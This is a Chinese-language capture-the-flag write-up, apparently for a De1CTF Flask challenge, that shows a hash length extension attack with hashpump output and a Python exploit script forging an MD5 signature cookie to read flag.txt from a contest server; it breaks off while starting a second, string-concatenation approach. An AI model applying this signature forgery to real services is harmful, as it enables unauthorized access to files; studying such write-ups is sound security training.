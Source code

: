 * 提示给的是 flag 在 ./flag.txt 中，题目单词打错了
* python 的 flask 框架，三个路由，index 用于获取源码，geneSign 用于生成 md5，De1ta 就是挑战
* 大概思路就是在 /De1ta 中 get param ，cookie action sign 去读取 flag.txt，其中，`param=flag.txt`，`action` 中要含有 `read` 和 `scan`，且 `sign=md5(secert_key + param + action)`

### 哈希拓展攻击

* 这是这道题最多的解法，介绍 : https://joychou.org/web/hash-length-extension-attack.html
* `secert_key` 是一个长度为 16 的字符串，在 `/geneSign?param=flag.txt` 中可以获取 `md5(secert_key + 'flag.txt' + 'scan')` 的值，为 `8370bdba94bd5aaf7427b84b3f52d7cb`，而目标则是获取 `md5(secert_key + 'flag.txt' + 'readscan')` 或者`md5(secert_key + 'flag.txt' + 'scanread')`的值
* 使用 hashpump 即可

```shell
root@peri0d:~/HashPump# hashpump
Input Signature: 8370bdba94bd5aaf7427b84b3f52d7cb
Input Data: scan
Input Key Length: 24
Input Data to Add: read
d7163f39ab78a698b3514fd465e4018a
scan\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xe0\x00\x00\x00\x00\x00\x00\x00read
```

* exp :

```python
import requests

url = 'http://139.180.128.86/De1ta?param=flag.txt'

cookies = {
	'sign': 'd7163f39ab78a698b3514fd465e4018a',
	'action': 'scan%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%e0%00%00%00%00%00%00%00read',
	}

res = requests.get(url=url, cookies=cookies)
print(res.text)
```

<img src="https://wcgimages.oss-cn-shenzhen.aliyuncs.com/de1ctf/ssrf_me_3.PNG" alt="" data-size="original">

### 字符串拼接

*   试着访问了一下 `/geneSign?param=flag.txt` ，给出了一个 md5 `8370bdba94bd5aaf7427b84b3f52d7cb` ，但是只有 `scan` 的功能，想加入 `read` 功能就要另想办法了

    ```
    def geneSign():
        param = urllib.unquote(request.args.get("param", ""))
        action = "scan"
        return getSign(action, param)
    ```
*   看了一下逻辑，在 getSign 处很有意思，这个字符串拼接的就很有意思了
